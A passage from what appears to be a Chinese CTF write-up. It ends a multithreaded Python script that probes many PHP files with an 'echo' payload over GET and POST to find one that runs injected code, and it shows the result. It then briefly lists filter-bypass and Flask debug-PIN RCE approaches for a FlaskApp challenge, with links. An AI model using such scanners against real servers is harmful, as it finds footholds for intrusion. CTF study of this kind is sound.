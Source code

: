 ```python
            if "xxxxxx" in content:
                flag = 1
                break
        if flag != 1:
            for b in posts:
                req = session.post(url, data={b:"echo 'xxxxxx';"})
                content = req.text
                req.close()                                                # 关闭请求  释放内存
                if "xxxxxx" in content:
                    break
        if flag == 1:                                                    #flag用来判断参数是GET还是POST，如果是GET，flag==1，则b未定义；如果是POST，flag为0，
            param = a
        else:
            param = b
        print('找到了利用文件： '+file+"  and 找到了利用的参数：%s" %param)
        print('结束时间：  ' + time.asctime(time.localtime(time.time())))
    s1.release()

for i in files:                                                            #加入多线程
   t = threading.Thread(target=get_content, args=(i,))
   t.start()
```

结果：

```
找到了利用文件： xk0SzyKwfzw.php  and 找到了利用的参数：Efa5BVG
结束时间：  Thu Sep 16 20:16:31 2021
```



### [GYCTF2020]FlaskApp

懒得写了0-0，跟着wp学习一下

有两种思路：一是绕过过滤读flag，二是利用pin码进行rce

[GYCTF2020 FlaskApp_汗的博客-CSDN博客](https://blog.csdn.net/Alexhcf/article/details/108400293)

[Flask开启debug模式等于给黑客留了后门 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/32138231)

[Flask debug 模式 PIN 码生成机制安全性研究笔记 - HacTF - 博客园 (cnblogs.com)](https://www.cnblogs.com/HacTF/p/8160076.html)





